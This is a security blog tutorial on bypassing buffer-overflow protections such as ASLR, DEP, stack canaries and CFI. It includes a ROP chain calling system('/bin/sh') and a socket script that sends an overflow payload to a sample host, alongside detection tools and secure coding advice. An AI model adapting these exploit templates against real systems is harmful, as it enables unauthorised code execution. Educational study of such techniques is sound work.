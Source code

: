 ```yaml
---
id: advanced-buffer-overflow
title: Advanced Buffer Overflow Techniques
category: offensive
date: 2025-01-15
excerpt: Exploring modern buffer overflow exploitation techniques and bypass methods for contemporary security mechanisms.
tags: [buffer-overflow, exploitation, binary-exploitation, rop]
author: Husam Gameel (Oppenheim3r)
---
```


# Advanced Buffer Overflow Techniques

*Published on January 15, 2025 by Husam Gameel (Oppenheim3r)*

Buffer overflow vulnerabilities remain one of the most critical security issues in modern software development. This post explores advanced techniques for exploiting buffer overflows and bypassing contemporary security mechanisms.

## Introduction

Buffer overflows occur when a program writes more data to a buffer than it can hold, potentially overwriting adjacent memory locations. While basic buffer overflow exploitation has been well-documented, modern systems implement various protection mechanisms that require sophisticated bypass techniques.

## Modern Protection Mechanisms

### Address Space Layout Randomization (ASLR)

ASLR randomizes the memory layout of processes, making it difficult for attackers to predict memory addresses. However, several techniques can be used to bypass ASLR:

- **Information Leaks**: Exploiting format string vulnerabilities or other information disclosure bugs
- **Partial Overwrites**: Overwriting only the least significant bytes of addresses
- **Brute Force**: In 32-bit systems, the entropy is limited enough for brute force attacks

### Data Execution Prevention (DEP/NX)

DEP marks memory pages as non-executable, preventing code execution in data segments. Common bypass techniques include:

- **Return-Oriented Programming (ROP)**: Chaining existing code gadgets
- **Jump-Oriented Programming (JOP)**: Using indirect jumps instead of returns
- **Return-to-libc**: Calling existing library functions

## Advanced Exploitation Techniques

### ROP Chain Construction

```python
#!/usr/bin/env python3

import struct

def p64(value):
    return struct.pack('<Q', value)

# Sample ROP chain for x64 Linux
rop_chain = b""
rop_chain += p64(0x400123)  # pop rdi; ret
rop_chain += p64(0x601000)  # address of "/bin/sh"
rop_chain += p64(0x400456)  # system() address
```

### Heap Exploitation

Modern heap exploitation techniques focus on:

- **Use-After-Free (UAF)**: Exploiting dangling pointers
- **Double-Free**: Corrupting heap metadata
- **Heap Spraying**: Filling heap with controlled data

## Mitigation Bypass Strategies

### Stack Canaries

Stack canaries are random values placed on the stack to detect buffer overflows:

```c
// Vulnerable function with stack canary
void vulnerable_function(char *input) {
    char buffer[256];
    // Stack canary is placed here by compiler
    strcpy(buffer, input);  // Vulnerable to overflow
    // Canary check happens here
}
```

Bypass techniques:
- **Canary Leaks**: Using format string bugs to leak canary values
- **Partial Overwrites**: Avoiding canary corruption
- **Brute Force**: In forking servers, canaries remain constant

### Control Flow Integrity (CFI)

CFI ensures that indirect calls and jumps target legitimate destinations:

- **Gadget Discovery**: Finding legitimate call targets
- **Shadow Stack**: Maintaining a separate call stack
- **Hardware Assistance**: Using Intel CET or ARM Pointer Authentication

## Practical Example

Here's a complete exploitation example:

```python
#!/usr/bin/env python3
import socket
import struct

def exploit():
    # Target information
    target_ip = "192.168.1.100"
    target_port = 9999
    
    # ROP gadgets (found using ROPgadget)
    pop_rdi = 0x400743
    pop_rsi_r15 = 0x400741
    system_addr = 0x400560
    bin_sh = 0x400800
    
    # Build payload
    payload = b"A" * 72  # Buffer overflow
    payload += struct.pack('<Q', pop_rdi)
    payload += struct.pack('<Q', bin_sh)
    payload += struct.pack('<Q', system_addr)
    
    # Send exploit
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    exploit()
```

## Detection and Prevention

### Static Analysis

- **Code Review**: Manual inspection of critical functions
- **Automated Tools**: Using tools like Coverity, PVS-Studio
- **Compiler Warnings**: Enabling all relevant warning flags

### Dynamic Analysis

- **Fuzzing**: Using tools like AFL, libFuzzer
- **Runtime Checks**: AddressSanitizer, Valgrind
- **Penetration Testing**: Regular security assessments

### Secure Coding Practices

```c
// Secure string handling
#include <string.h>

void secure_copy(const char *src, char *dst, size_t dst_size) {
    strncpy(dst, src, dst_size - 1);
    dst[dst_size - 1] = '\0';  // Ensure null termination
}

// Using safer alternatives
char buffer[256];
snprintf(buffer, sizeof(buffer), "User input: %s", user_input);
```

## Conclusion

Buffer overflow exploitation continues to evolve alongside defensive mechanisms. Understanding both attack and defense perspectives is crucial for cybersecurity professionals. While modern protections make exploitation more challenging, determined attackers can still find ways to bypass these mechanisms.

Key takeaways:
- Always assume multiple layers of protection
- Stay updated with latest bypass techniques
- Implement defense in depth
- Regular security testing is essential

## References

- [OWASP Buffer Overflow Guide](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf)

---

*Tags: buffer-overflow, exploitation, binary-exploitation, rop, security-research*

